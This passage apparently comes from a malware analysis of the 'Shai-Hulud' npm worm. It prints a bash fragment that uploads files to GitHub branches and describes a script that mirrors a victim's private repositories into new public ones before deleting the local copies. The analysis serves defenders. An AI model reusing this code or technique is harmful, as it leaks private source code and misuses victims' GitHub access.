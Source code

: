 ```
    # Encode file and upload to the new branch
    FILE_CONTENT_BASE64=$(echo -n "$FILE_CONTENT" | base64 | tr -d '\n')

    echo "  → Uploading $FILE_NAME to branch..."
    FILE_DATA=$(jq -n \
        --arg message "Add $FILE_NAME placeholder file" \
        --arg content "$FILE_CONTENT_BASE64" \
        --arg branch "$BRANCH_NAME" \
        '{message: $message, content: $content, branch: $branch}'
    )

    FILE_RESPONSE=$(github_api PUT "/repos/$REPO_FULL_NAME/contents/$FILE_NAME" "$FILE_DATA")
    FILE_ERROR=$(echo "$FILE_RESPONSE" | jq -r '.message // empty')

    if [ -n "$FILE_ERROR" ] && [[ "$FILE_ERROR" != "null" ]]; then
        if [[ "$FILE_ERROR" == *"already exists"* ]]; then
            echo -e "  ${YELLOW}⚠ File already exists on branch${NC}"
        else
            echo -e "  ${RED}❌ Failed to upload file: $FILE_ERROR${NC}"
        fi
    else
        echo -e "  ${GREEN}✓ File uploaded successfully${NC}"
    fi

    echo ""
done

echo -e "${GREEN}🎉 Script execution completed!${NC}"
```

###### migrate-repos.sh

The migrate-repos.sh script begins by enumerating the user's internal and private repositories.

<img src="/static/NPM/image-7.png" alt="drawing" width="1000"/>

It then processes each repository, appending the suffix -migration to its original name. It creates a new public repository with this new name and the description "Shai-Hulud Migration".

<img src="/static/NPM/image-8.png" alt="drawing" width="1000"/>

<img src="/static/NPM/image-13.png" alt="drawing" width="1000"/>

The core function, migrate_repo, performs the following actions to duplicate each repository:
- It uses git clone --mirror to create a full copy of the repository.
- It changes the remote URL to point to the newly created target repository using the command git remote set-url origin.
- It pushes all content to the new mirror with git push --mirror.
- Finally, it cleans up by removing the temporary local directory with rm -rf "$repo_dir/$migration_name".

<img src="/static/NPM/image-12.png" alt="drawing" width="1000"/>
